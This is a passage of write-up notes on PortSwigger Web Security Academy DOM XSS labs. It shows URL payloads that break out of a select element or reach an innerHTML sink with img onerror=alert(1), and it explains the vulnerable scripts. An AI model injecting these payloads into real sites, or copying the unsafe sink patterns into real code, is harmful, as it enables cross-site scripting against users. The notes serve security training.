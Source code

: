 We can simply change the url to:
```
https://ff.web-security-academy.net/product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```
Or sometimes a bit simpler (browser will close the element for us therefore we don't need `">`):
```
https://ff.web-security-academy.net/product?productId=1&storeId=HI</select><img%20src=1%20onerror=alert(1)>
```
Which will create the following DOM:
```bash
<select name="storeId">
    <option selected="">"&gt;</option>
</select>
<img src="1" onerror="alert(1)">
<option>London</option>
<option>Paris</option>
<option>Milan</option>
<button type="submit" class="button">Check stock</button>
...
```

### Lab: DOM XSS in innerHTML sink using source location.search
There's a script:
```
<script>
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
</script>
```

`innerHTML` is our sink that we can use for xss.

In the url we do:
```
https://ff.web-security-academy.net/?search=<img src=1 onerror=alert(1)>
```

Which will later change the `.innerHTML` of `#seachMessage` html element according to the script above

> Note: The value of the src attribute is invalid and throws an error. This triggers the onerror event handler, which then calls the alert() function.

### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
There's a script:
```
<script>
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
</script>
```
There's also an HTML element:
`<a id="backLink" href="/">Back</a>`
